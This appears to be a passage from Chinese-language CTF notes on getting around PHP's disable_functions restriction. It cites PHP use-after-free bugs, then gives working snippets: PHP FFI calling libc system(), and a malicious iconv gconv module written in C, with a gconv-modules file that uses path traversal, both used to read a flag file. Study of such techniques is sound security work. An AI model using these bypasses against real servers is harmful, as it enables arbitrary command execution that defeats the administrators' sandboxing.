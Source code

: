 ### 1.6 Json Serializer UAF

> 理论上PHP本地代码执行漏洞都可以用来 Bypass disable_function, 比如 PHP #77843 Json Serializer UAF 漏洞。
>
> [PHP :: Bug #77843 :: Use after free with json serializer](https://bugs.php.net/bug.php?id=77843)
>
> 插件yyds。

### 1.7 Backtrace UAF

> 直接插件吧，UAF的exp确实不会构造。

### 1.8 FFI 扩展

> FFI 扩展已经通过RFC, 正式成为PHP7.4的捆绑扩展库, FFI 扩展允许 PHP 执行嵌入式 C 代码。
>
> [PHP FFI详解 - 一种全新的PHP扩展方式 - 风雪之隅 (laruence.com)](https://www.laruence.com/2020/03/11/5475.html)

```php
FFI::cdef([string $cdef = "" [, string $lib = null]]): FFI // 这里直接写入函数原型
static function load(string $filename): FFI; // 加载.h文件
```

这里可以直接用FFI调用一个标准库函数（当然也可以调用自己的函数，需要自己编译成so文件。）

```php
<?php
$ffi = FFI::cdef("int system(const char * string);"); // 这里需要找到system的函数原型
$ffi->system("tac /flag > /var/www/html/flag");
```

访问后即可获得flag。

### 1.9 iconv

> [使用GCONV_PATH与iconv进行bypass disable_functions_lesion__的博客-CSDN博客](https://blog.csdn.net/qq_42303523/article/details/117911859)

```c
// a.c
#include <stdio.h>
#include <stdlib.h>

void gconv() {}

void gconv_init() {
  system("tac /flag > /tmp/flag");
}
// gcc -shared -fPIC a.c -o abc.so
```

gconv-modules
```
module  ABC//    INTERNAL    ../../../../../../../../tmp/abc    2
module  INTERNAL    ABC//    ../../../../../../../../tmp/abc    2
```
